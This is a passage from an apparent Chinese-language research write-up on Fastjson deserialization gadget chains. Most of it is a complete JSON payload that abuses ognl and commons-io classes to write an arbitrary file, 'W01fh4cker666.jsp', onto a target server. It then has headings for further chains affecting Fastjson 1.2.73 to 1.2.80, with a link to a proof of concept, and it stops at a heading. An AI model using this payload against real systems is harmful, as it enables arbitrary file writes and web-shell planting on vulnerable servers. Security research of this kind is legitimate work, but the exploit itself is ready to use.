 ```json
{"su14":{"@type":"java.lang.Exception","@type":"ognl.OgnlException"},"su15":{"@type":"java.lang.Class","val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"java.lang.String""@type":"ognl.OgnlException","_evaluation":""}},"su16":{"@type":"ognl.Evaluation","node":{"@type":"ognl.ASTMethod","p":{"@type":"ognl.OgnlParser","stream":{"@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.XmlStreamReader","inputStream":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.CharSequenceReader","charSequence":{"@type":"java.lang.String""W01fh4ckeraaaaaa...","start":0,"end":2147483647},"charsetName":"UTF-8","bufferSize":1024},"branch":{"@type":"org.apache.commons.io.output.WriterOutputStream","writer":{"@type":"org.apache.commons.io.output.FileWriterWithEncoding","file":"W01fh4cker666.jsp","charsetName":"UTF-8","append":false},"charsetName":"UTF-8","bufferSize":1024,"writeImmediately":true},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[36,82]}]}}}},"su17":{"@type":"ognl.Evaluation","node":{"@type":"ognl.ASTMethod","p":{"@type":"ognl.OgnlParser","stream":{"@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.XmlStreamReader","inputStream":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.su16.node.p.stream.delegate.reader.inputStream.input"},"branch":{"$ref":"$.su16.node.p.stream.delegate.reader.inputStream.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[36,82]}]}}}},"su18":{"@type":"ognl.Evaluation","node":{"@type":"ognl.ASTMethod","p":{"@type":"ognl.OgnlParser","stream":{"@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.XmlStreamReader","inputStream":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.su16.node.p.stream.delegate.reader.inputStream.input"},"branch":{"$ref":"$.su16.node.p.stream.delegate.reader.inputStream.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[36,82]}]}}}},"su19":{"@type":"ognl.Evaluation","node":{"@type":"ognl.ASTMethod","p":{"@type":"ognl.OgnlParser","stream":{"@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.XmlStreamReader","inputStream":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.su16.node.p.stream.delegate.reader.inputStream.input"},"branch":{"$ref":"$.su16.node.p.stream.delegate.reader.inputStream.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[36,82]}]}}}}}
```

![image-20231021213615716](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/image-20231021213615716.png)

### 5.2.3 ognl+commons-io+aspectjtools+commons-codec组合利用链

这条链主要是为了解决前面提到的的`io`链无法写入复杂文件结构的问题，文件依旧需要大于`8kb`才能写入。`poc`地址如下：

> https://github.com/safe6Sec/ShiroAndFastJson/blob/master/src/main/java/com/shiro/vuln/fastjson/Fastjson26_ognl_io_write_4.java

## 5.3 xalan+dom4j+commons-io（1.2.73<=version<=1.2.80）

### 5.3.1 xalan+dom4j+commons-io（2.0~2.6版本）

